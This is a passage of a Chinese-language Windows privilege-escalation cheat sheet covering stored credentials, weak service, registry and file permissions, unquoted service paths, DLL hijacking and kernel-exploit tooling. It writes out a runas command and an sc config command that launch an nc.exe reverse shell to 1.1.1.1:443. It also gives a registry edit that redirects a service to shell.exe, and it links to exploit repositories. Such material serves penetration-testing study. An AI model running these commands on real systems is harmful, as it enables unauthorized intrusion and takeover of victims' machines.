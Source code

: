 1.  检查当前环境是否拥有任何**存储的凭证**。【命令 `cmdkey /list` 】
2.  若**发现凭证**，则可使用 `runas /env /noprofile /savecred /user:admin "c:\temp\nc.exe 1.1.1.1 443 -e cmd.exe"` 来进行权限移动。
3.  若通过下文的密码搜寻获得了**用户的密码信息**，则可参考该[文章](https://www.cnblogs.com/kqdssheng/p/18751119#id2)进行权限移动。

叁 - 弱服务


-----------

1.  弱服务的枚举最好还是通过工具 [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) 和 [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) 去自动分析，手工分析较为繁琐。弱服务类别如下：
2.  弱**服务**权限：用户对服务自身具有修改权限，故可通过 sc 命令修改服务的启动程序路径或服务启动身份。【命令 `sc config Juggernaut binPath= "C:\temp\nc.exe 1.1.1.1 443 -e C:\windows\system32\cmd.exe"` 】【[更多详情](https://www.cnblogs.com/kqdssheng/p/18779558#id4)】
3.  弱**注册表**权限：用户对服务所对应的注册表具有写入权限，故可通过 reg 命令**间接修改**服务启动程序路径或服务启动身份的动作。【命令 `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Juggernaut" /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\shell.exe" /f`】【[更多详情](https://www.cnblogs.com/kqdssheng/p/18785725#id3)】
4.  弱**文件/目录**权限：用户对服务启动程序所在目录具有写入权限，故可对启动程序进行替换。【[更多详情](https://www.cnblogs.com/kqdssheng/p/18771857#id4)】
5.  **未引用**的服务路径：（1）服务启动程序的绝对路径存在空格且没有使用双引号包裹，触发系统按照**路径优先级**逐层查找可执行文件。（2）在逐层查找的路径中，用户对其中一个目录具有写入权限。（3）依此在目录下写入一个 **对应名称** 的恶意程序。【[更多详情](https://www.cnblogs.com/kqdssheng/p/18779548#id1)】
6.  **DLL** 劫持：类似“弱**文件/目录**权限”中替换服务启动程序一样，DLL 劫持会对服务启动程序所加载的 DLL 文件进行直接替换或间接劫持。
    1.  **直接替换**要求用户对服务启动程序所在目录具有写入权限。【注：既如此，何不直接替换启动程序】【[更多详情](https://www.cnblogs.com/kqdssheng/p/18782860#id2)】
    2.  **间接劫持**需要分析服务启动时会加载哪些 DLL，同时需要对 **DLL 标准搜索目录**其中之一具有写入权限。【注：这种只对已知通用的服务有效果】【[更多详情](https://www.cnblogs.com/kqdssheng/p/18782860#id3)】
    3.  一些利用系统 DLL 加载进行攻击的仓库推荐：
        1.  [https://github.com/xct/diaghub](https://github.com/xct/diaghub)
        2.  [https://github.com/itm4n/UsoDllLoader](https://github.com/itm4n/UsoDllLoader)
        3.  [https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

> 注意：在对服务进行利用之前，先知悉自己有没有触发服务重启的能力（重启服务\[sc start \*\]、重启电脑），否则做了也是无用工。

肆 - Windows 内核


------------------

1.  查看 OS 版本信息，确认 Windows 的新旧版本。【命令 `systeminfo` 】
    
2.  **Windows XP/7/Server 2008/Server 2012/其它更旧版本** 都称为旧版 Windows 系统。旧版 Windows 系统可将 systeminfo.txt 内容交给自动工具 [wesng](https://github.com/bitsadmin/wesng) 和 [Windows Exploit Suggester 2](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2) 去离线分析，或在受害机本机使用 [sherlock.ps1](https://github.com/rasta-mouse/Sherlock) 脚本去分析，分析结果中交集的漏洞可优先实验。【[更多详情](https://www.cnblogs.com/kqdssheng/p/18765857)】
    
3.  **Windows 10/Server 2016/Server 2019/ 其它更新版本** 都称为新版 Windows 系统。新版 Windows 系统建议使用自动工具 [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)去受害机本地分析，或通过 kali 内置工具 **Searchsploit** 去离线手工查找。【[更多详情](https://www.cnblogs.com/kqdssheng/p/18768236)】
    
4.  优质内核漏洞利用**推荐**：
    
    1.  [PrintNightmare](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)：几乎所有受支持的 Windows 版本。
    2.  [cve\_2022\_21882\_win32k](https://github.com/KaLendsi/CVE-2022-21882)【MSF 亦支持】：几乎覆盖 Win10 所有版本。
    3.  [其它已编译的内核漏洞](https://github.com/SecWiki/windows-kernel-exploits)
